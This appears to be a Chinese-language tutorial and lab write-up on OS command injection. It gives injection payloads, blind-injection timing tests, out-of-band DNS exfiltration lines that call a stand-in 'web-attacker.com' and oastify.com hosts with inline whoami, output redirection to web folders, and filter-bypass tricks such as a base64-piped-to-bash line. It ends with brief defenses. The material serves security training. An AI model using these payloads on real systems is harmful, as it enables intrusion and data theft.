## 什么是操作系统命令注入
OS 命令注入（也称 Shell 注入）允许攻击者在运行应用程序的服务器上执行任意操作系统命令。
攻击者通常可以：
完全控制应用程序及其数据
利用信任关系攻击组织内其他系统
将攻击扩展到整个基础设施
## 命令注入示例
假设一个购物网站通过以下 URL 查询商品库存：
```text
https://insecure-website.com/stockStatus?productID=381&storeID=29
```
后端调用系统命令：
```bash
stockreport.pl 381 29
```
如果应用程序没有防御措施，攻击者可以输入：
```text
& echo aiwefwlguh &
```
最终执行的命令变为：
```bash
stockreport.pl & echo aiwefwlguh & 29
```
输出分析：
```text
Error - productID was not provided
aiwefwlguh
29: command not found
```
说明：
stockreport.pl 因缺少参数报错
echo 命令成功执行并输出字符串
29 被当作命令执行，结果报错
& 是命令分隔符，确保注入的命令独立执行。
### 实战演练

抓包修改storeId

## 常用命令

| 目的 | Linux | Windows |
|------|-------|---------|
| 当前用户 |whoami |whoami |
| 操作系统信息 |uname -a |ver |
| 网络配置 |ifconfig |ipconfig /all |
| 网络连接 |netstat -an |netstat -an |
| 运行中的进程 |ps -ef |tasklist |

---

## 盲命令注入
### 是什么
1. 有些应用不会在 HTTP 响应中返回命令输出，但仍可能执行命令，这种情况称为盲注
2. 示例：
   用户提交反馈，服务器调用 mail 命令发送邮件：
   ```bash
   mail -s "反馈" -aFrom:user@example.com admin@site.com
   ```
   命令能够执行但输出不会返回给用户
### 如何检测
1. 使用时间延迟检测
   ```bash
   &ping -c 10 127.0.0.1
   ```
   如果响应时间显著增加，说明命令被执行。
   实战演练
   
   
   可以看到只有邮箱对输入有要求，||是只有前一个命令执行不了才执行后一个命令，所以可以在邮箱处尝试命令注入
   payload：`email=x||ping+-c+10+127.0.0.1||`
   
2. 带外交互（OAST - Out-of-Band）
   1. 示例：
      利用 DNS 或 HTTP 请求将执行结果发送到攻击者控制的服务器。
      ```bash
      || nslookup kgji2ohoyw.web-attacker.com ||
      ```
   2. 实战演练：
      
      先从burp中获取一个域名
      payload `|| nslookup bgvhxn9slwykrzp1ydmaxyacy34uskg9.oastify.com ||`
      
      
### 如何利用
1. 通过重定向输出来利用盲操作系统命令注入
   1. 示例：
      重定向输出到 Web 可访问目录
      ```bash
      ; whoami > /var/www/static/whoami.txt ;
      ```
      然后访问该文件查看输出内容`https://vulnerable-site.com/whoami.txt`
   2. 实战演练
       
      payload：`||whoami > /var/www/images/whoami.txt||`
      
      这应该是网络用来存放图片的文件夹，找到一个访问图片的数据包，寻找请求参数并修改请求参数的值
      `?filename=whoami.txt`
      
2. 内联执行命令+带外数据泄露
   1. 示例：
      ```bash
      ; nslookup `whoami`.kgji2ohoyw.web-attacker.com ;
      ```
      在 Linux 中会先执行 whoami，然后将执行结果发送给攻击者DNS服务器
      Windows 中的等效命令`& whoami | nslookup`
   2. 实战演练：
      
      payload：|| nslookup \`whoami\`.eewkvq7vjzwnp2n4wgkdv18fw62xqqef.oastify.com ||
      
      
## 命令注入常见分隔符和语法
### 通用（Windows + Linux）

| 分隔符 | 说明 |
|--------|------|
| & |windows中的命令分隔符，Linux中的后台执行符 |
| && |前一个命令执行成功才执行后一个 |
| \| |管道符 |
| \|\| |前一条失败才执行后一条 |

### 仅限 Linux / Unix

| 分隔符 | 说明 |
|--------|------|
| ; |命令分隔符 |
| \n |换行符 |
| `cmd` |内联执行 |
| $(cmd) |内联执行 |

---

## 绕过手法
1. 绕过引号限制
   如果输入被包含在引号中如`mail -s "user input"` ,需要先闭合引号`";whoami "`,最终执行`mail -s "";whoami ""`
2. 绕过空格过滤
   1. `$IFS{}`
   2. `$IFS$9`
   3. `>,<`
   4. `{cat,/flag}`
3. 绕过关键字过滤
   1. 通配符：`*`
   2. \截断`c\at /fl\ag`
   3. 变量拼接`a=fl;b=ag;cat /$a$b`
   4. 内联命令执行`cat $(ls)`
   5. 环境变量截取被过滤字符/ `${PATH:0:1}`
   6. 编码绕过`echo "Y2F0IC9mbGFn" | base64 -d | bash`
4. 绕过命令分隔符过滤
   1. `\n` `\t`
   2. `%0a` `%0d`
5. 绕过原始字节过滤:利用编码解码方式差异
6. 利用请求方法或协议特性
   1. Content-Type: application/json; charset=utf-16【某些 WAF 只检查 utf-8 或原始字节】
   2. 分块传输（Transfer-Encoding: chunked）【部分 WAF 不解析 chunked 体】
   3. 参数污染（HTTP Parameter Pollution）
## 如何防御命令注入
**最有效方法：**永远不要从应用层代码调用 OS 命令
如果必须使用：
   ✅ 强输入校验
   白名单验证允许的值
   验证输入是否为数字
   限制输入只能包含字母数字字符（无空格、符号）
   ❌ 不要试图转义元字符
   Shell 元字符的转义极易出错，且可被绕过。
